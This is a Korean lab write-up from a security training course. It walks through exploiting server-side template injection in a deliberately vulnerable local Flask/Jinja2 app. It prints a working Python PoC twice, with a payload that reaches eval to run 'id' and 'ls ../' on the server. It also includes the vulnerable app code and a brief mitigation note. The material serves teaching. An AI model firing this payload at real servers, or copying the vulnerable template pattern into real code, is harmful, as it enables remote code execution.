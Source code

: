 # Flask (Jinja2) SSTI (Server Side Template Injection)

> 화이트햇 스쿨 3기 - [박혜수 (@Pandyo)](https://github.com/Padnyo)]

<br/>

## 실습 환경 구성

1. docker과 docker-compose, python 등 실습에 필요한 프로그램 설치
2. `git clone`를 통해 실습 코드 clone
3. 선택한 취약점인 Flask 디렉토리의 docker-compose.yml 파일이 위치하는 곳으로 이동
4. `docker-compose up -d`를 통해 실습 환경 실행
5. `docker ps`를 통해 이미지 실행을 확인 후 해당 port 번호로 localhost 접속

<br/>

## 취약점 실습 진행

1. name의 파라미터 값으로 지정된 값을 화면에 그대로 출력시키는 것을 확인
![name의 파라미터 값으로 지정된 값을 화면에 그대로 출력시키는 것을 확인](https://github.com/user-attachments/assets/cd0c96e8-747e-4655-ae62-5dfdccf84821)
2. 파라미터 값에 템플릿 엔진에 삽입되는 템플릿 구문으로 연산 값 입력 시 7*7이 그대로 출력되는 것이 아닌 연산 결과가 출력되는 것을 통해 SSTI에 취약함을 확인
![연산 결과가 출력되는 것을 통해 SSTI에 취약함을 확인](https://github.com/user-attachments/assets/b3d643cd-869e-48c9-bf30-57368d09d685)
4. git 실습 코드에 포함된 아래의 poc.py 파일 실행
```python
from urllib import parse

# 실행할 Python 코드
script = '__import__("os").popen("id").read()'
# 서버에 전달할 템플릿 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)
print("[삽입될 템플릿 코드]")
print(value)
print()

# SSTI를 수행하는 URL
query = [("name", value)]
url = "http://localhost:8000/?"
url = url + parse.urlencode(query)  # 삽입할 코드 퍼센트 인코딩하여 쿼리값으로 설정
print("[요청 URL]")
print(url)
print() 
```
4. 실행 결과로 출력된 요청 URL을 복사하여 웹 사이트에 입력
![실행 결과로 출력된 요청 URL을 복사하여 웹 사이트에 입력](https://github.com/user-attachments/assets/4b080377-5ebb-4af2-b3e7-3be84a4b7d52)
5. 템플릿 구문으로 입력된 내용이 실행되며 서버 프로세스의 id가 출력됨
![템플릿 구문으로 입력된 내용이 실행되며 서버 프로세스의 id가 출력됨](https://github.com/user-attachments/assets/610e5e80-6ca9-4307-8eae-cbbb28d244b7)
6. PoC 코드를 조금 수정해 ls ../ 명령어가 실행되도록 하면
```python
from urllib import parse

# 실행할 Python 코드
script = '__import__("os").popen("ls ../").read()'
# 서버에 전달할 템플릿 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)
print("[삽입될 템플릿 코드]")
print(value)
print()

# SSTI를 수행하는 URL
query = [("name", value)]
url = "http://localhost:8000/?"
url = url + parse.urlencode(query)  # 삽입할 코드 퍼센트 인코딩하여 쿼리값으로 설정
print("[요청 URL]")
print(url)
print()
```
7. 명령어가 실행되며 상위 디렉토리가 나열되는 것을 확인 (다양한 명령어 실행이 가능한 것)
![명령어가 실행되며 상위 디렉토리가 나열되는 것을 확인](https://github.com/user-attachments/assets/cd77ee76-675a-41ec-9c14-91d33cf2479a)

<br/>

## 결과

- 해당 코드를 확인해보면 `Template("Hello " + name)` 부분에서 파라미터의 입력 값이 데이터로 전달되는 것이 아닌 템플릿에 연결되기 때문에 SSTI 취약점이 발생한 것 입니다.
```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```
- 이 경우 공격자는 임의의 명령어를 실행할 수 있으며, 이는 RCE(Remote Code Execution)으로 이어질 수 있는 심각한 취약점 입니다.
- 사용자의 입력값을 필터링하는 등의 방법으로 대응이 가능합니다.
